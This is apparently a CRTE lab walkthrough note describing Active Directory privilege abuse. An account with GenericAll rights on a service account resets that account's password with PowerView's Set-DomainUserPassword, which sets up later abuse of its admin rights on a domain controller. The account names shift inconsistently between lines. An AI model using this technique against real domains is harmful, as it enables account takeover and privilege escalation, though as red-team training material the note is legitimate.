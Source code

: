 # 1. Rights, Privileges and Permissions of `us\srvdba` at `dbvendor.local`
## 1.1 Access Rights
- `db\srvdba` does not have any specific access rights on resources at `dbvendor.local`.
## 1.2 Account Privileges
- `db\srvdba` does not have any specific privileges on resources at `dbvendor.local`.
## 1.3 Account Permissions
- `db\srvdba` has `GenericAll` permissions on `dbvendor\dbXsvc`. We can target our designated user and change it's password.
```powershell
PS C:\Windows\system32> $target_pass = ConvertTo-SecureString -AsPlainText -Force -String 'Password123!'
PS C:\Windows\system32> Set-DomainUserPassword -Identity db57svc -Domain dbvendor.local -AccountPassword $target_pass
```
- We can now abuse the administrative privileges of `dbvendor\db57svc` on `DB-DC` at [[3. CRTE/2. Lab Walkthrough/7th Forest (db.local)/db.local/2. Kill Chain|2. Kill Chain]].